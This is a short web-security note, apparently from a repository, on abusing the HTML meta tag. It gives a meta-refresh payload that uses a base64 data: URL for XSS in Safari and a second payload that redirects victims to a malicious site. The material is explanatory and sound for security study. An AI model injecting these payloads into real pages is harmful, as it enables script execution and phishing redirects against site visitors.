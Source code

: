 The [&lt;meta&gt;](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/meta) tag represents metadata that cannot be represented by other HTML meta-related elements.

Some `<meta>` tags are informational, for example:

```html
<meta name="name" content="content">
```

And some affect the page in some way, for example:

```html
<meta http-equiv="content-security-policy" content="default-src 'none'; base-uri 'self'">
```

Moreover, CSP does not regulate such `<meta>` elements. `<meta http-equiv=...>` is a tag on the page that may emulate a subset of functions normally reserved for page headers. Similarly, some of these functions appear in Javascript, which is already heavily regulated by CSP. Dangerous functions that can be performed by `<meta http-equiv=...>` include:
- set-cookie,
- refresh:
    - redirect to any regular URL,
    - redirect to any data: URL.

> set-cookie instruction was removed from the standard, and is no longer supported at all in Firefox 68 and Chrome 65.

# XSS

We can use the `<meta>` tag with `content = "0; data: "` URI to execute arbitrary Javascript code (works only on safari), for example:

```html
<meta name="language" content="0;data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" http-equiv="refresh"/>
```

Firefox and Chrome will block this:
- Not allowed to navigate top frame to data URL (Firefox)
- Navigation to toplevel data: URI not allowed (Chrome)

# Open redirect

Using a similar payload, you can redirect the victim to an malicious page:

```html
<meta name="language" content="5;http://malicious-website.com" http-equiv="refresh"/>
```

# References

- [&lt;meta&gt; and &lt;iframe&gt; tags chained to SSRF](https://medium.com/@know.0nix/hunting-good-bugs-with-only-html-d8fd40d17b38)